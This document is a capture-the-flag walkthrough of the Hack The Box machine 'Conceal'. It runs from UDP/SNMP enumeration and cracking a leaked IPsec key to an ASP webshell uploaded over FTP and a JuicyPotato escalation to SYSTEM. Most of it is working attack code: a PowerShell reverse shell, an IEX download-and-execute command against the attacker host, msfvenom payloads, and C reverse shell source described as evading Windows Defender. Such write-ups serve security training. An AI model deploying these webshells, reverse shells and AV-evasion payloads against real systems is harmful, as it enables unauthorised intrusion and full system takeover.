# [Conceal](https://app.hackthebox.eu/machines/168)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.116 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.116 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.116
# UDP quick scan
sudo nmap -v -sU -F --open -Pn 10.10.10.116
```

The TCP quick does not return anything and neither does the full TCP scan? However, the UDP scan returns 1 open port:



This is a unique port. Look up how to probe it:

- https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting
- https://www.opensourceforu.com/2012/01/ipsec-vpn-penetration-testing-backtrack-tools/

Check if this port is using IPsec:

```bash
sudo ike-scan -M 10.10.10.116
```


Looking at this output and parsing it using the info from the link shows the following:

- The VPN is configured using a preshared key ( `Auth=PSK`)
- The target is likely `Windows-8`
- The target is configured for IPsec and is willing to perform IKE negotiation, and either one or more of the transforms proposed are acceptable: (`1 returned handshake; 0 returned notify`)
  - The valid transform is `(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)`


Since a valid handshake was returned, try to find a valid IKE group name. First see if one can be brute-forced:

```bash
sudo ike-scan -P -M -A -n bubba 10.10.10.116
```

Since that command does not return a "fake" hash, it can be used to bruteforce a valid group ID. Download a list of common IKE group names from [SecLists](https://github.com/danielmiessler/SecLists):

```bash
# download and locate wordlist
sudo apt install seclists
find / -iname ike-groupid.txt 2>/dev/null
# try to bruteforce group ID
while read l; 
do 
  echo "Trying $l ...";
  (echo "!!! Found ID: $l" && sudo ike-scan -M -A -n "$l" 10.10.10.116) | \
  grep -B14 "1 returned handshake" | \
  grep "Found ID:"; 
done < /usr/share/seclists/Miscellaneous/ike-groupid.txt
```

But this does not have any wins... This was a hard deadend... After a hint from the write-up, it seems like the next step was to probe SNMP? However, `nmap` reported this as not open? After some more research on `nmap` UDP scanning, the following `nmap` command will actually perform better discovery:

- https://nmap.org/book/scan-methods-udp-scan.html

```bash
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 -T4 10.10.10.116
```


**NOTE:** The `Discovered open|filtered port 161/udp on 10.10.10.116 is actually open` message! This was a good lesson learned for overall UDP enumeration!

Since SNMP is actually open, start some enumeration:

```bash
sudo nmap -v -sU -p 161 -Pn --script "snmp-*" 10.10.10.116
onesixtyone 10.10.10.116 public      
snmpwalk -c public -t 10 10.10.10.116
snmp-check -c public 10.10.10.116
```

Of the results, the output for `snmp-check` is interesting:



It seems like there is an IPsec PSK value that is `9C8B1A372B1878851BE2C097031B6E43`? This seems like a hash... Try to ID the type:

```bash
echo '9C8B1A372B1878851BE2C097031B6E43' > ipsec.hash
hashid ipsec.hash
```

Of the results, it seems like the likely candidates are MD5 or NTLM. Try cracking both:

- https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 1000 -a 0 --quiet --potfile-disable ipsec.hash rockyou.txt
hashcat -m 0    -a 0 --quiet --potfile-disable ipsec.hash rockyou.txt
```



It seems like the hash _may_ be NTLM with the value `Dudecake1!`. Try connecting:

- https://github.com/hwdsl2/setup-ipsec-vpn/blob/master/docs/clients.md
- https://wiki.strongswan.org/projects/strongswan/wiki/UserDocumentation
- **NOTE:** The `rightprotoport` and `leftprotoport` being `tcp` is important since the target is only applying IPsec for TCP and not UDP since SNMP works!
- The encryption parameters for the connection come from the output of the `ike-scan`

```bash
# setup connection details
cat >> ipsec.conf << EOF
conn conceal-htb
  type=transport
  keyexchange=ikev1
  right=10.10.10.116
  authby=psk
  rightprotoport=tcp
  leftprotoport=tcp
  esp=3des-sha1
  ike=3des-sha1-modp1024
  auto=start
EOF
echo '10.10.10.116 : PSK "Dudecake1!"' >> /etc/ipsec.secrets # run as root
# start connection
sudo ipsec start --debug --conf $(pwd)/ipsec.conf --nofork
```

And this connects!



Now scan the target again through the IPsec tunnel. **Since an IPsec tunnel is being used, scans must use a full TCP handshake (connect scan) and cannot use the default SYN scanning**.

- **NOTE:** If this seems like magic, go read about the difference between tunnel and transport IPsec tunnels. This is a transport IPsec tunnel that allows for 2 clients to communicate over an encrypted tunnel.
- https://security.stackexchange.com/questions/76308/when-do-i-use-ipsec-tunnel-mode-or-transport-mode

```bash
# TCP deep scan
sudo nmap -sT -p1-65535 -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.116 &
# TCP quick scan
sudo nmap -v -sT -sC -F --open -Pn -sV 10.10.10.116
```

The TCP connect quick scan returns some open ports:


Check out the FTP connection:



It seems like anonymous login is allowed and write access is given. However, there are no interesting files... Moving on for now. Start the following web scanner:

```bash
nikto -h http://10.10.10.116/ -C all --maxtime=120s --output=nikto.txt
```


Browse to the site manually:

```bash
firefox http://10.10.10.116/
```



Site looks like a default IIS installation. Start the following directory scanner looking for ASP.NET `asp` and `aspx` pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -r -q -z -o gobuster.txt -x asp,aspx \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.116/ &
```

This scan returns an interesting directory:

```
/upload (Status: 200)
/Upload (Status: 200
```

Browsing to this shows the following:



That is the file that was uploaded over FTP. Use it to get an ASP reverse shell:

```bash
# generate payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f aspx-exe \
         -o bubba.aspx
# start listener
nc -nvlp 6969
# upload payload
ftp 10.10.10.116
```

However, this hangs after trying to run `put bubba.aspx `? Maybe this is AV preventing the file from being uploaded? Trying another ASPX webshell from `/usr/share/webshells/aspx/` does not work ... Try ASP? Here is a barebones ASP shell that _should_ get around AV:

```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec(Request.Querystring("c"))
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Saving the above code to `bubba.asp` and uploading it over FTP works! Test it as follows:

```bash
curl -s -G --data-urlencode 'c=whoami' http://10.10.10.116/upload/bubba.asp
```


That is code execution. Try to get a dedicated ASP reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f asp \
         -o bubba.shell.asp
```

However this also hangs... This definitely is starting to look like AV... Trying a few things here did not work. Trying a custom C Win32 reverse shell EXE or DLL was also caught (this usually works...). Trying a PowerShell reverse shell connected but quickly was disconnected. After fiddling around, it seems like something is also going around and removing all the files in `/upload` after a certain timer expires:


Since code execution is given using the basic ASP webshell, move payloads out of the `/upload` directory to get around this annoying task. Since the error message above says the working directory is `C:\inetpub\wwwroot\upload\`, move `bubba.asp` to `C:\inetpub\wwwroot\` to prevent being deleted:

```bash
curl -s -G --data-urlencode 'c=cmd.exe /c copy C:\inetpub\wwwroot\upload\bubba.asp C:\inetpub\wwwroot\bubba.asp' http://10.10.10.116/upload/bubba.asp
```

This seems to get around the annoying clean-up task. Now get around AV by using a basic PowerShell reverse shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.27',6969);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String);
  $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
}
$client.Close();
```

Save the above as `bubba.ps1` and then get a reverse shell as follows:

```bash
# host payload
sudo python3 -m http.server 80
# start listener 
nc -nvlp 6969
# send download & execute request
curl -s -G --data-urlencode "c=powershell.exe -exec bypass -c IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.27/bubba.ps1')" http://10.10.10.116/bubba.asp
```

And this finally gets a reverse shell:

```powershell
# find the user.txt (proof.txt in this case)
Get-ChildItem -Path c:\users\ -Filter *.txt -Recurse -ErrorAction SilentlyContinue -Force
Get-ChildItem -Path c:\ -Filter proof.txt -Recurse -ErrorAction SilentlyContinue -Force
```



Looking at the target, there is an interesting task running:

```bash
schtasks /query /fo LIST /v | findstr /i "TaskName" | findstr /i /v "\\Microsoft\\Windows\\"
```


`CleanUp` looks like the annoying task from before. Get more info:

```bash
schtasks /query /fo LIST /v /tn "\CleanUp"
```



The `c:\admin_checks\checks.ps1` location is interesting. See what is there:

```bash
cmd.exe /c dir /a /s /b c:\admin_checks
```


Nothing crazy. Here is the content of the PowerShell file:

```powershell
# run standard checks
Get-ChildItem -Path C:\inetpub\wwwroot\upload\* -ErrorAction SilentlyContinue | Remove-Item -Force -ErrorAction SilentlyContinue

# run one time checks
foreach($check in (Get-ChildItem C:\admin_checks\checks\*.ps1 -File)){
    . $check.fullname
    $check | Remove-Item -Force -ErrorAction SilentlyContinue
}
```

This explains the annoying task. However, since the task is running as the user `destitute`, there is no way to use this to escalate. However, looking at the local privledges of the current account shows some interesting ones:


`SeImpersonatePrivilege` is not a common token and makes this machine vulnerable to privledge escalation through the following:

- https://github.com/ohpe/juicy-potato

Download and transfer the binary to the target:

```bash
# download and host binary
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
sudo python3 -m http.server 80
# download binary on target
certutil.exe -urlcache -split -f http://10.10.14.27/JuicyPotato.exe c:\users\destitute\JuicyPotato.exe
```

But this also hangs? Is this still AV?

---

:warning: Had to do some learning here... The following resource showed what is missing to be able to upload large files to the target:

- https://www.youtube.com/watch?v=1ae64CdwLHE

----

It seems like the issue here is MTU size with VPN tunnels. There is already a VPN used to connect to the HTB lab. Adding the other IPsec VPN to connect to the target has caused packets to become too large due to encapsulation. These large packets get dropped by routers along the way. Here is an image that helps:

- **NOTE:** This means the custom C/DLL reverse shells would have bypassed AV...



This shows how IPsec modes add to the size of the IP packet on the network for each mode. Now this packet is already being encapsulated again in another VPN tunnel through the HTB network VPN. This is better depicted in the following image:



The fix here is to lower the MTU of the VPN `tun0` interface. This forces the IP packet to be smaller. That way, the extra overhead for the various VPNs does not exceed the common max MTU of 1500. The reason the previous payloads were failing to upload was not because of antivirus, but because the MTU of the packets was greater than 1500 and the packets were dropped along the way by routers who drop packets with too large an MTU. 

```bash
sudo ifconfig tun0 mtu 1000
```

After running the above command on Kali, the following download will work:

```bash
certutil.exe -urlcache -split -f http://10.10.14.27/JuicyPotato.exe c:\users\destitute\JuicyPotato.exe
```

Now compile a new reverse shell payload that the exploit will call that also bypasses Windows Defender AV. Use the following C reverse shell:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define LHOST "10.10.14.27"
#define LPORT 7777

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(LHOST);
  sa.sin_port = htons(LPORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

Compile as follows:

```bash
i686-w64-mingw32-gcc bubba.c -o bubba.exe -s -lws2_32
```

Host & transfer the binary to the target over SMB:

```bash
# on kali, host payload
sudo impacket-smbserver -smb2support BUBBA .
# on klai, start listener
nc -nvlp 7777
# on target, download payload
robocopy.exe \\10.10.14.27\BUBBA c:\users\destitute bubba.exe /copy:DT /w:1 /r:1 /v
```

Now trigger execution:

```bash
c:\users\destitute\JuicyPotato.exe -l 9876 -p c:\users\destitute\bubba.exe -t *
```

But this produces the following error:

```
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9876
COM -> recv failed with error: 10038
```

This is because the defaul COM object CSLID `{4991d34b-80a1-4291-83b6-3328366b9097}` is not valid on Windows 10. Go here and find a CLSID that will work for Windows 10 Enterprise (version found from `systeminfo`) for SYSTEM access:

- https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
- Using the CSLID for `XblGameSave` below

```bash
c:\users\destitute\JuicyPotato.exe -l 9876 -p c:\users\destitute\bubba.exe -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

And this returns a shell as SYSTEM:


---

There is also another way using the following exploit for CVE-2018-8440 that can be found by running [Watson](https://github.com/rasta-mouse/Watson):

- https://github.com/realoriginal/alpc-diaghub

The exploit is not difficult to do so walking through it is not needed.